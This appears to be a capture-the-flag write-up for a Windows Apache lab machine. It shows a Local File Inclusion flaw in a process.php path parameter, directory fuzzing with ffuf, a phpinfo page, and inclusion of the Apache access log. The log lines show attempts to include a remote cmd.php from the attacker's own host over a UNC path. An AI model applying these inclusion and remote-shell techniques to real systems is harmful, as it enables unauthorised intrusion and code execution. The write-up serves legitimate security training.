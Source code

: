 We shortly analyzed the form of the links included on the home page and we noticed a LFI (Local File Inclusion) vulnerability:
```bash
$ curl 'http://10.129.95.158:8080/' -s | grep '.php' -C3
			</header>

		<!-- Signup Form -->
			<form id="signup-form" method="post" action="process.php?path=submit.php">
				<input type="email" name="email" id="email" placeholder="Email Address" />
				<input type="submit" value="Sign Up" />
			</form>
```

We confirmed the vulnerability by asking for the file `C:\Ẁindows\System32\drivers\etc\hosts`.

We also started fuzzing files and directories. 
```bash
$ ffuf -D -u http://10.129.95.158:8080/FUZZ -w ~/dicc.txt -t 10 -fc 403
[...]

LICENSE.txt             [Status: 200, Size: 17128, Words: 2798, Lines: 64]
README.TXT              [Status: 200, Size: 2242, Words: 282, Lines: 67]
assets                  [Status: 301, Size: 241, Words: 14, Lines: 8]
assets/                 [Status: 200, Size: 362, Words: 27, Lines: 15]
images/                 [Status: 200, Size: 216, Words: 19, Lines: 11]
images                  [Status: 301, Size: 241, Words: 14, Lines: 8]
index.html              [Status: 200, Size: 1565, Words: 97, Lines: 46]
info.php                [Status: 200, Size: 66067, Words: 3239, Lines: 705]
```

The file `info.php`, that was serving `phpinfo()` caught our attention. We first though we should exploit the race between the path of temporary uploaded files (disclosed by `phpinfo()`) and the LFI vulnerability in order to make the application include our temporary uploaded `PHP` file.

However, it turned out we could also include the Apache access logs:

```bash

$ curl 'http://10.129.95.158:8080/process.php?path=C:/Apache24/logs/access.log' -s | head

10.10.14.9 - - [06/Jul/2021:01:16:28 -0700] "GET / HTTP/1.1" 200 1565
10.10.14.9 - - [06/Jul/2021:01:30:08 -0700] "GET /process.php?path=c:\\windows\\win.ini HTTP/1.1" 200 92
10.10.14.9 - - [06/Jul/2021:01:36:41 -0700] "GET /process.php?path=c:\\windows\\win.ini HTTP/1.1" 200 92
10.10.14.9 - - [06/Jul/2021:01:36:57 -0700] "GET /process.php?path=\\\\10.10.14.9\\aSD HTTP/1.1" 200 -
10.10.14.9 - - [06/Jul/2021:01:59:14 -0700] "GET /process.php?path=\\\\10.10.14.9\\aSD HTTP/1.1" 200 -
10.10.14.9 - - [06/Jul/2021:03:11:25 -0700] "GET /process.php?path=\\\\10.10.14.9\\aSD HTTP/1.1" 200 -
10.10.14.9 - - [06/Jul/2021:03:12:43 -0700] "GET / HTTP/1.1" 200 1565
10.10.14.9 - - [06/Jul/2021:03:54:16 -0700] "GET /process.php?path=\\\\10.10.14.9\\f\\cmd.php HTTP/1.1" 200 -
10.10.14.9 - - [06/Jul/2021:03:58:06 -0700] "GET / HTTP/1.1" 200 1565
10.10.14.9 - - [06/Jul/2021:03:58:07 -0700] "GET /assets/css/main.css HTTP/1.1" 200 22801
```
